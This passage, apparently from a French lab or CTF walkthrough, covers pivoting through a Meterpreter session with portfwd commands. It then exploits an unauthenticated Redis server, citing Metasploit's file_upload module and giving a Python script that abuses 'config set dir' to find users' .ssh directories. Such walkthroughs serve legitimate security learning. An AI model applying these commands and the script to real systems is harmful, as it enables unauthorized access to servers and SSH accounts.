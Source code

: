 On s'empresse de port-forwarder ces deux ports depuis notre session Meterpreter (cela permet d'avoir les ports directements accessibles sur 127.0.0.1, Meterpreter fait le reste).  

```plain
portfwd add -l 6379 -p 6379 -r 172.19.0.2
portfwd add -l 80 -p 80 -r 172.19.0.3
```

Sur le port 80 on ne trouve pas grand chose : juste une install par défaut avec le message *It works!*  

Pour le Redis c'est plus intéressant. Certes si on effectue un *searchsploit redis* depuis Kali on ne trouve rien d'exceptionnel pourtant il existe des techniques permettant d'exploiter un Redis exposé sans authentification.  

Metasploit dispose d'un module *auxiliary/scanner/redis/file\_upload* dont la description est assez parlante :  

```plain
Description:
  This module can be used to leverage functionality exposed by Redis
  to achieve somewhat arbitrary file upload to a file and directory to
  which the user account running the redis instance has access. It is
  not totally arbitrary because the exact contents of the file cannot
  be completely controlled given the nature of how Redis stores its
  database on disk.
```

L'exploitation peut aussi se faire plus simplement en se connectant sur le port Redis à l'aide de telnet (qui s’occupera d'envoyer des CRLF). On peut voir plusieurs scénarios d'explotation sur le blog de [Urahara](http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html).  

Le client redis semble lui utiliser un formatage légèrement plus poussé, assez propre du bencoding utilisé par Bittorent, dans tous les cas il est assez simple d'écrire à titre d'exemple un outil de brute-force de compte Unix pour espérer trouver un dossier .ssh accessible :  

```python
import socket
import sys

cmd = (
    "*4\r\n"
    "$6\r\n"
    "config\r\n"
    "$3\r\n"
    "set\r\n"
    "$3\r\n"
    "dir\r\n"
    "${}\r\n"
    "{}\r\n"
)

sock = socket.socket()
sock.connect(('127.0.0.1', 9999))

with open(sys.argv[1], errors="ignore") as fd:
    for username in fd:
        username = username.strip()
        path = "/home/{}/.ssh/".format(username)
        payload = cmd.format(len(path), path)
        sock.send(payload.encode())
        buff = sock.recv(1024).decode()
        if "No such file or directory" in buff:
            continue
        else:
            print(username, buff)

sock.close()
```